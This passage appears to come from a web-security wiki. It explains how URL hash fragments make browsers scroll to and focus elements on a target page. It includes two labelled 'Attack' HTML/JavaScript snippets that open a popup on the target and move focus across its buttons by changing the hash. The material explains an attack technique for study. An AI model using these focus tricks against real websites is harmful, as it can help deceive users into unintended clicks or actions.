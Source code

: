Scrolling to a specific element is not the only this does, `<input>` or `<button>` elements will be automatically **focused**. See the following example:

{% code title="Target (example.com)" %}
```html
<input id="some-button" type="submit" value="Submit">
```
{% endcode %}

{% code title="Attack" %}
```html
<script>
  onclick = () => {
    // Automatically focus input on opening the popup
    window.open("https://example.com/#some-button", "", "popup")
  }
</script>
```
{% endcode %}

This can be automated by changing the `.location` attribute of a window reference. When you change the URL to the same path and query with a different hash fragment, it is _not reloaded_ and will focus/scroll to the new element the hash points to. Here's an example that cycles through a few:

{% code title="Target (example.com)" %}
```html
<button id="1">1</button>
<button id="2">2</button>
<button id="3">3</button>
```
{% endcode %}

{% code title="Attack" %}
```html
<script>
  const target = "https://example.com";

  function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
  }

  let w;
  onclick = async () => {
    w = window.open(target, "", "popup");
    // Cycle through buttons without reloading by changing the hash fragment only
    await sleep(1000);
    while (true) {
      w.location = target + "#1"
      await sleep(500);
      w.location = target + "#2"
      await sleep(500);
      w.location = target + "#3"
     await sleep(500);
    }
  }
</script>
```
{% endcode %}
